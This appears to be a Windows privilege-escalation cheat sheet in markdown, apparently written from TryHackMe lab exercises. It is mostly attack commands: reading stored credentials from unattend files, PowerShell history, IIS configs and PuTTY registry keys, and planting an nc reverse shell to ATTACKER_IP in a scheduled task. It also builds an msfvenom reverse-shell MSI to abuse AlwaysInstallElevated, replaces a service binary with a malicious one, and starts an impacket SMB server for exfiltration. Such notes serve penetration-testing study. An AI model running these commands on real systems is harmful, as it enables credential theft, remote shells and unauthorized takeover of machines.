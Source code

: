 # Password Harvesting
The easiest way to elevate your privileges is to steal credentials from an application. 

### Unattended Windows Installations:
Credentials left by automatic windows installations may be in:
- `C:\Unattend.xml`
- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Unattend\Unattend.xml`
- `C:\Windows\system32\sysprep.inf`
- `C:\Windows\system32\sysprep\sysprep.xml`
```xml
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

### Powershell History
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Saved Windows Creds
```cmd
cmdkey /list

runas /savedcred /user:admin cmd.exe
```

### IIS Config
- `C:\inetpub\wwwroot\web.config`
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### From putty:
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
``` 

# Quick wins
### Scheduled Tasks
```cmd
:: View Scheduled Tasks
schtasks

:: View more info for each task
schtasks /query /tn vulntask /fo list /v

:: Check if current user can modify the task
icacls c:\path\to\vulntask

:: Spawn a NC shell (assuming NC is installed to c:\tools)
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
schtasks /run /tn vulntask
```

### AlwaysInstallElevated
```
:: Requires these to be set
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

**Create a malicious msi to abuse the install perms:**
```bash 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.179.108 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

**Run the msi on the windows instance:**
```cmd
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

# Service based
```cmd
:: Query for service config
sc qc <service name>

:: Check permission of a binary
icacls <path to bin>

:: Create backup of service
move WService.exe WService.exe.bkp

:: Import Malicious service 
move C:\Users\thm-unpriv\rev-svc.exe WService.exe
icacls WService.exe /grant Everyone:F

:: Restart ws
sc stop windowsscheduler 
sc start windowsscheduler

```

# Permission abuse
```cmd
:: Get Permissions
whoami /priv
```

**Attacker:**
```bash
mkdir share
opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```